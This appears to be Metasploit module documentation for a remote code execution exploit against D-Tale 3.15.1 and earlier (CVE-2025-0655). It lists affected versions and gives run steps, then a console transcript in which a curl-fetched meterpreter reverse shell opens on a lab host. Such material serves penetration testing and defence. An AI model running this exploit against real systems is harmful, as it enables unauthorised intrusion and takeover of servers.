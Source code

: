 ## Vulnerable Application

This exploit effectively serves as a bypass for CVE-2024-3408.
An attacker can override global state to enable custom filters, which then facilitates remote code execution.
Specifically, this vulnerability leverages the ability to manipulate global application settings
to activate the enable_custom_filters feature, typically restricted to trusted environments.
Once enabled, the /test-filter endpoint of the Custom Filters functionality can be exploited to execute arbitrary system commands.

The vulnerability affects:

    * D-Tale <= 3.15.1

This module was successfully tested on:

    * D-Tale 3.15.1 installed on Ubuntu 24.04
    * D-Tale 3.12.0 installed on Ubuntu 22.04
    * D-Tale 3.10.0 installed on Ubuntu 22.04
    * D-Tale 3.0.0 installed on Ubuntu 22.04
    * D-Tale 2.5.1 installed on Ubuntu 22.04
    * D-Tale 2.4.0 installed on Ubuntu 22.04


### Installation

1. `pip install 'dtale==3.15.1'`

2. `dtale --host 0.0.0.0`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/dtale_rce_cve_2025_0655`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios
```
msf > use exploit/linux/http/dtale_rce_cve_2025_0655
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf exploit(linux/http/dtale_rce_cve_2025_0655) > options

Module options (exploit/linux/http/dtale_rce_cve_2025_0655):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    40000            yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FETCH_COMMAND   CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE    true             yes       Attempt to delete the binary after execution
   FETCH_FILELESS  false            yes       Attempt to run payload without touching disk, Linux ≥3.17 only
   FETCH_SRVHOST                    no        Local IP to use for serving payload
   FETCH_SRVPORT   8080             yes       Local port to use for serving payload
   FETCH_URIPATH                    no        Local URI to use for serving payload
   LHOST                            yes       The listen address (an interface may be specified)
   LPORT           4444             yes       The listen port


   When FETCH_FILELESS is false:

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_FILENAME      agAyokIhdJZ      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf exploit(linux/http/dtale_rce_cve_2025_0655) > run lhost=192.168.56.1 rhost=192.168.56.17
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 3.15.1 detected.
[*] Use data_id: 1
[*] Updated the enable_custom_filters to true.
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.17:33210) at 2025-03-03 20:49:53 +0900
[*] Successfully executed the payload.
[*] Successfully cleaned up data_id: 1

meterpreter > getuid
Server username: ubu
meterpreter > sysinfo
Computer     : 192.168.56.17
OS           : Ubuntu 22.04 (Linux 6.8.0-52-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
